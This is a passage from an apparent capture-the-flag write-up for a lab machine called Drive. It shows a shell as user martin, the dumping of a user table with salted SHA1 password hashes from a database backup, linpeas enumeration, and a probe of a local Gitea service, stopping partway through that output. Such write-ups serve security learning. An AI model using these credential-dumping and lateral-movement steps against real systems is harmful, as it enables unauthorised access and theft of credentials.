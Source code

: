 ```bash
Failed to connect to <https://changelogs.ubuntu.com/meta-release-lts>. Check your Internet connection or proxy settings

Last login: Thu Jan 25 10:33:44 2024 from 10.10.14.88
martin@drive:~$ id
uid=1001(martin) gid=1001(martin) groups=1001(martin)
```


## Lateral movement
Found a db.sqlite file in the `/var/www/backups` folder.
```bash
martin@drive:/var/www/backups$ ls -al
total 3740
drwxr-xr-x 2 www-data www-data    4096 Sep  1 18:23 .
drwxr-xr-x 5 root     root        4096 Sep 15 13:34 ..
-rw-r--r-- 1 www-data www-data   13018 Sep  1 20:00 1_Dec_db_backup.sqlite3.7z
-rw-r--r-- 1 www-data www-data   12226 Sep  1 20:00 1_Nov_db_backup.sqlite3.7z
-rw-r--r-- 1 www-data www-data   12722 Sep  1 20:00 1_Oct_db_backup.sqlite3.7z
-rw-r--r-- 1 www-data www-data   12770 Sep  1 20:00 1_Sep_db_backup.sqlite3.7z
-rwxr-xr-x 1 root     root     3760128 Dec 26  2022 db.sqlite3
```

Further enumerating this file we find password hashes and users.
```bash
sqlite> select * from accounts_customuser;
21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
23|sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004|2022-12-24 13:17:45|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372
```

Linpeas reveals that Gitea is running.
```bash
╔══════════╣ Binary processes permissions (non 'root root' and not belonging to current user)
╚ <https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes>                                                                                                                                   
108M -rwxrwxr-x 1 1000 1000 108M Dec 25  2022 /usr/local/bin/gitea
```

A quick google search reveals that Gitea runs on port 3000 by default (for some reason this port isn’t listed between active ports?).
```bash
martin@drive:~$ curl <http://127.0.0.1:3000>
<!DOCTYPE html>
<html lang="en-US" class="theme-">
<head>
```
